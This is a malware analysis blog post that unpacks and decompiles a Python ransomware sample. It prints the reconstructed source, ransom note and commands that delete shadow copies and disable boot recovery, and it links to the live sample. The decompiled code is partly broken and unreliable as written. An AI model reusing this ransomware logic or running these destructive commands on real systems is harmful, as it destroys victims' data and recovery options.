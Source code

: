```yaml
---
title: "Decoding a Pyinstaller ransomware sample"
classes: wide
header:
  teaser: /assets/images/malwareanalysis/pyinstaller/image-1.png
ribbon: DodgerBlue
description: "Decoding a ransomware sample made in Python, step by step"
categories:
  - Malware Analysis
toc: true
---
```

**Note:** if you want to download this ransomware sample for educational purposes, feel free to do so by clicking here: [password: infected](https://drive.usercontent.google.com/download?id=1NWs44HGrYTqrUm1V_G-gTXTrdXReOjDn&export=download&authuser=0)

# Introduction

Recently, I've came across this Python ransomware sample:
![Encryptor.exe ransomware](/assets/images/malwareanalysis/pyinstaller/image.png)

First, here's the ransom note:
![ransomware note](/assets/images/malwareanalysis/pyinstaller/note.png)

Now, let's start examining the .exe file statically.
# Understanding the file
Here's the `Detect It Easy` output:
![Detect it easy](/assets/images/malwareanalysis/pyinstaller/image-1.png)

We can clearly see that the program is a python-compiled executable, by examining the hexadecimal artifacts:

![alt text](/assets/images/malwareanalysis/pyinstaller/image-2.png)

Now, let's jump to reversing the file! 

We will use the Python script [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract and analyze the contents of this pyinstaller generated executable file:
# Unpacking pyinstaller resources
![Analyzing the file](/assets/images/malwareanalysis/pyinstaller/image-3.png)

We received the output from pyinstxtractor:
```
C:\Users\WDAGUtilityAccount\Downloads\analyzing>pyinstxtractor.py Encryptor.exe
[+] Processing Encryptor.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.13
[+] Length of package: 21092376 bytes
[+] Found 120 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_cryptography_openssl.pyc
[+] Possible entry point: pyi_rth_pywintypes.pyc
[+] Possible entry point: pyi_rth_pythoncom.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: Encryptor.pyc
[+] Found 609 files in PYZ archive
[+] Successfully extracted pyinstaller archive: Encryptor.exe

```

You can now use a python decompiler on the pyc files within the extracted directory.

So, let's go to the newly generated `Encrypted.exe_extracted` folder:

![Unpacked libraries](/assets/images/malwareanalysis/pyinstaller/image-4.png)

This ransomware sample clearly uses a lot of cryptographic libraries.

This `Encrypted.pyc` file is one of the files in the `Encrypted.exe_extracted` folder:

![Bytecode](/assets/images/malwareanalysis/pyinstaller/image-5.png)

Now, we need to decompile the `Encrypted.pyc` file we received from pyinstxtractor. For that, we'll use the web interface of this library called [pylingual](https://www.pylingual.io/), that decompiles `.pyc` files containing the compiled bytecode of the ransomware's main Python source code:

Pylingual gave us a great reconstruction of the source code:
# Reconstructed source code
```py

# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: Encryptor.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

from pathlib import Path
from PIL import Image, ImageDraw, ImageFont
import ctypes
import string
import subprocess
import shutil
import base64
import sys
from win32com.client import Dispatch
from win32api import GetSystemMetrics
from PIL import Image, ImageDraw, ImageFont
import random
import os
import secrets
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives import serialization, hashes
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
PUBLIC_KEY_PEM = '-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDzOPVPDhQAR/xYjucI5SdCugXS\nG9ZFk5C1It85dOvh+fmD1UNXs5h3R28hUtThRARNh2ar3ADlGGWHIKwoV4P5hZx4\nq2Cg4odgWrf7a5eskCu3fI4eCTKBSItuEs4nFrjdu6HDXnzVHDkxrkWY96mmoZ9R\n0zG8Kyo6ofuge9p2IwIDAQAB\n-----END PUBLIC KEY-----'
AES_KEY_PATH = 'C:\\ProgramData\\02dq34jROu.key'
USER_PATH = os.path.expanduser('~')
TARGET_DIRS = ['Downloads', 'Music', 'Documents', 'Desktop', 'Videos', 'Pictures']
EXTENSION = '.02dq34jROu'

def _34EYLBSVGLRLCR7DM4():
    return serialization.load_pem_public_key(PUBLIC_KEY_PEM.encode(), backend=default_backend())

def _JXOPHO2CGWP23DL9L1():
    aes_key = secrets.token_bytes(32)
    public_key = _34EYLBSVGLRLCR7DM4()
    encrypted_aes_key = public_key.encrypt(aes_key, padding.OAEP(mgf=padding.MGF1(algorithm=hashes.SHA256()), algorithm=hashes.SHA256(), label=None))
    with open(AES_KEY_PATH, 'wb') as key_file:
        key_file.write(encrypted_aes_key)
        return aes_key

def _0HAHESD3QA17F3OWF7():
    if not os.path.exists(AES_KEY_PATH):
        return _JXOPHO2CGWP23DL9L1()

def _SSJAVGM86I7CGWDH9W(file_path, aes_key):
    if not file_path.endswith(EXTENSION) and (not file_path.endswith('.exe')) and (not file_path.endswith('.dll')) and file_path.endswith('.lnk'):
        pass  # postinserted
    return None

def _LLIRBGOWCAMFAVUTAK():
    global aes_key  # inserted
    contentof = '-- Lyrix\n\nYour data has been encrypted and stolen. The only way to recover it is by contacting us.\nDo not attempt to use third-party recovery tools — doing so may permanently damage your files.\n\nTo prove that decryption is possible, we are willing to decrypt 2 random files for free.\n\nYou can contact us at:\nTDVP7boZDZDE4GYWA3qW@protonmail.com\n\nWARNING!\nWe have also downloaded a portion of your data. If you do not pay, we will release it publicly.\n\nID: KVNR2HLU3N9W5BQCPU\n    '
    aes_key = _0HAHESD3QA17F3OWF7()
    print('AES key already exists. Skipping key generation.') if not aes_key else None
    appdata_dir = os.path.join(USER_PATH, 'AppData').lower()
    for root, dirs, files in os.walk(USER_PATH):
        root_normalized = os.path.abspath(root).lower()
        if root_normalized.startswith(appdata_dir):
            continue
        readme_path = os.path.join(root, 'README.txt')
        try:
            with open(readme_path, 'w', encoding='utf-8') as readme_file:
                readme_file.write(contentof)
                    print(f'Created README.txt in: {root}')
                    for file in files:
                        file_path = os.path.join(root, file)
                        try:
                            _SSJAVGM86I7CGWDH9W(file_path, aes_key)
                            print(f'File [{file_path}] encrypted')
    except Exception as e:
        print(f'[WARNING] Failed to create README.txt in {root}: {e}')
    except Exception as e:
        print(f'[WARNING] Cannot Encrypt file {file_path}: {e}')
if __name__ == '__main__':
    _LLIRBGOWCAMFAVUTAK()
subprocess.Popen('cmd.exe /c vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no', shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, stdin=subprocess.DEVNULL, creationflags=subprocess.CREATE_NO_WINDOW)
extensions_to_list = ['.exe', '.dll', '.lnk']

def list_files(drive_path, extensions):
    for root, dirs, files in os.walk(drive_path, topdown=True):
        for file in files:
            if any((file.endswith(ext) for ext in extensions)):
                continue
            file_path = os.path.join(root, file)
            _SSJAVGM86I7CGWDH9W(file_path, aes_key)
for drive_letter in string.ascii_uppercase:
    drive_path = f'{drive_letter}:/'
    if drive_letter not in ['C'] and os.path.exists(drive_path):
        pass  # postinserted
    else:  # inserted
        try:
            list_files(drive_path, extensions_to_list)
except PermissionError:
    print(f'Access denied to {drive_path}')

```
Great! So now we managed to get the literal source code itself.

Let's explain what the code does step by step:

# Source code explanation

Here are the key variables:
- `PUBLIC_KEY_PEM`: The attacker's RSA public key, hardcoded into the malware.
- `AES_KEY_PATH`: Where the victim’s encrypted AES key will be stored: `C:\ProgramData\02dq34jROu.key`. `02dq34jROu` is likely a generated ID for the key
- `TARGET_DIRS`: Standard folders to attack first (Downloads, Documents, Desktop, etc.).
- `EXTENSION`: Files will get renamed with the randomly generated ID `.02dq34jROu` after encryption (this code doesn't show the full renaming though).

The malware also uses `subprocess.Popen(...)` commands to deletes all system shadow copies and disables recovery options:

- `vssadmin delete shadows /all /quiet`
- `wmic shadowcopy delete`
- `bcdedit /set {default} bootstatuspolicy ignoreallfailures`
- `bcdedit /set {default} recoveryenabled no`

This makes it harder to recover files without paying.

`list_files(drive_path, extensions)`

Walks through a drive letter (like D:/, E:/).

The encryption routine works like this:

- For every file, if file is **NOT** .exe, .dll, or .lnk, it tries to encrypt it.
- For every drive letter A: to Z, i**f the drive exists and is NOT C:** (system drive), encrypt files on it.

This ransomware has some bugs and problems, and is likely very ameatur-ish. 


